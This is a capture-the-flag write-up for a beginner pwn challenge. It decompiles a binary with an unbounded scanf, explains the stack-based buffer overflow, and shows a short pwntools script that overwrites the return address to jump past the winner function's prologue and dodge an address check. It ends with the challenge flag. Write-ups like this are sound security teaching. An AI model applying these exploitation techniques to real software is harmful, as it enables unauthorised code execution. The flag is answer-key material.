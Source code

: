 ## 10 - The Winner

### Description

**Solve**: 13/242

**Score**: 76

Wanna be the winner? Solve this.

Download: [https://stdio-2026-public.2600.in.th/10_easy_The_Winner.zip](https://stdio-2026-public.2600.in.th/10_easy_The_Winner.zip)

Author: Jusmistic

 `nc 157.230.193.18 10010`

### Solution
#### Step 1 Analysis

![](https://github.com/nkd3v/STDiO-CTF-2023-Writeup/assets/28519551/e894a9f8-bb11-4480-8d4a-bc0a089ecc62)

First off I started by trying to understand the program behavior, this will make it easier for us to understand when we trying to reverse engineer it, we can see that it just read input and echo out the output

To really know what going on we have to use tool like Ghidra to disassemble and decompile the program, these are the interesting function

```c
void winner(void)
{
  char local_78 [104];
  FILE *local_10;
  
  local_10 = fopen("/home/ctf/flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    perror("Error opening flag file");
    FUN_00401160(0xffffffff);
  }
  fgets(local_78,100,local_10);
  fclose(local_10);
  printf("Congratulations! You found the flag: %s\n",local_78);
  return;
}

undefined8 main(void)
{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("--- PING PONG SHOW ---");
  vuln();
  return 0;
}

void vuln(void)
{
  int iVar1;
  undefined local_88 [124];
  int local_c;
  
  printf("PING: ");
  __isoc99_scanf(&DAT_00402068,local_88);
  for (local_c = 0; local_c < 0xc9; local_c = local_c + 1) {
    iVar1 = memcmp(local_88 + local_c,&winnerAddress,8);
    if (iVar1 == 0) {
      puts("Nice try, but you can\'t use the address of the winner function!");
      FUN_00401160(1);
    }
  }
  printf("PONG: %s",local_88);
  return;
}
```

We can see that the program store the input data in `local_88` which has size of 124 without any input limit, which mean this program is vulnerable to overflow, if we write data beyond what the `local_88` can accept which is 124, data will start to overwrite other memory.

Due to how stack which is the memory region that store local variable is structured, it will first overwrite `iVar1` (4 bytes) then the saved `rbp` (8 bytes) and after that will be the return address (8 bytes)

By overwriting the return address we can redirect the execution of a program to any point we want, in this case the winner function which will print the flag when called

![](https://github.com/nkd3v/STDiO-CTF-2023-Writeup/assets/28519551/7e8b3a6d-3af9-4e8e-aec0-b953331bcb08)

![](https://github.com/nkd3v/STDiO-CTF-2023-Writeup/assets/28519551/00fe84b5-281c-4474-a8d0-bc3ffc0de32a)

In Ghidra, we can see that the `winner` function is located at `0x401256` but it will fail if we try to call it since the program have a check using `memcmp`.

The bypass is actually surprisingly easy, as we don't really have to call the function with its start address for it to work, we can skip a few instructions and it will be working just fine, in this case I skip `ENDBR64; PUSH RBP`, so we will redirect program to `0x40125b` instead

#### Step 2 Crafting Payload

The simplest way to craft an exploit is to use pwntools, for installation guide you can find it here: https://github.com/Gallopsled/pwntools

```python
from pwn import *

io = remote('157.230.193.18', 10010)

payload = b'A'*124 # overwrite string array local_88
payload += b'B'*4  # overwrite int iVar1
payload += b'C'*8  # overwrite saved rbp
payload += p64(0x40125B)

io.sendline(payload)

io.interactive()
```

First we open connection to the server with `io = remote('157.230.193.18', 10010)`, then we pad our payload with dummy characters then we use `p64` to convert our address to bytes which is the format needed for exploit to work properly

```
STDIO23_10{6ba7067210fa6da510cc17e5fd615ef7}
```

